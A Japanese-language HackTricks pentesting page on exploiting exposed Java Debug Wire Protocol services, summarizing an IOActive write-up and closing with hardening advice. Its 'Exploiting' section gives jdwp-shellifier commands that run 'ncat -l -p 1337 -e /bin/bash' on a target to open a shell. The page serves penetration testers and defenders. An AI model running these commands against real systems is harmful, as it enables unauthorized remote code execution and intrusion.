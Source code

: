 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**脆弱性評価とペネトレーションテストのための即時利用可能なセットアップ**。20以上のツールと機能を使用して、どこからでも完全なペンテストを実行できます。私たちはペンテスターを置き換えるのではなく、彼らがより深く掘り下げ、シェルをポップし、楽しむための時間を取り戻すために、カスタムツール、検出および悪用モジュールを開発しています。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Exploiting

JDWPの悪用は、**プロトコルの認証と暗号化の欠如**に依存しています。一般的には**ポート8000**で見られますが、他のポートも可能です。最初の接続は、ターゲットポートに「JDWP-Handshake」を送信することで行われます。JDWPサービスがアクティブであれば、同じ文字列で応答し、その存在を確認します。このハンドシェイクは、ネットワーク上のJDWPサービスを特定するためのフィンガープリンティング手法として機能します。

プロセス識別に関しては、Javaプロセス内で「jdwk」という文字列を検索することで、アクティブなJDWPセッションを示すことができます。

使用するツールは[**jdwp-shellifier**](https://github.com/hugsy/jdwp-shellifier)です。さまざまなパラメータで使用できます：
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
`--break-on 'java.lang.String.indexOf'` を使用すると、エクスプロイトがより**安定**します。また、ホストにバックドアをアップロードしてコマンドを実行する代わりにそれを実行する機会があれば、エクスプロイトはさらに安定します。

## 詳細

**これは [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) の要約です**。詳細については、こちらを確認してください。

1. **JDWP 概要**:
- パケットベースのネットワークバイナリプロトコルで、主に同期的です。
- 認証と暗号化が欠如しており、敵対的なネットワークにさらされると脆弱です。

2. **JDWP ハンドシェイク**:
- 通信を開始するためにシンプルなハンドシェイクプロセスが使用されます。デバッガ（クライアント）とデバッグ対象（サーバー）間で14文字のASCII文字列「JDWP-Handshake」が交換されます。

3. **JDWP 通信**:
- メッセージは、Length、Id、Flag、CommandSetなどのフィールドを持つシンプルな構造です。
- CommandSetの値は0x40から0x80までで、異なるアクションやイベントを表します。

4. **エクスプロイト**:
- JDWPは任意のクラスやバイトコードをロードして呼び出すことを許可し、セキュリティリスクを引き起こします。
- 記事では、Java Runtimeの参照を取得し、ブレークポイントを設定し、メソッドを呼び出すという5つのステップからなるエクスプロイトプロセスが詳述されています。

5. **実際のエクスプロイト**:
- ファイアウォール保護の可能性にもかかわらず、JDWPサービスは発見可能で、実際のシナリオでエクスプロイト可能です。これはShodanHQやGitHubなどのプラットフォームでの検索によって示されています。
- エクスプロイトスクリプトはさまざまなJDKバージョンに対してテストされており、プラットフォームに依存せず、信頼性のあるリモートコード実行（RCE）を提供します。

6. **セキュリティの影響**:
- インターネット上にオープンなJDWPサービスが存在することは、定期的なセキュリティレビュー、プロダクション環境でのデバッグ機能の無効化、適切なファイアウォール設定の必要性を強調しています。

### **参考文献:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**脆弱性評価とペネトレーションテストのための即時利用可能なセットアップ**。20以上のツールと機能を使用して、どこからでも完全なペンテストを実行できます。私たちはペンテスターを置き換えるのではなく、彼らに深く掘り下げ、シェルをポップし、楽しむための時間を戻すためにカスタムツール、検出およびエクスプロイトモジュールを開発します。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
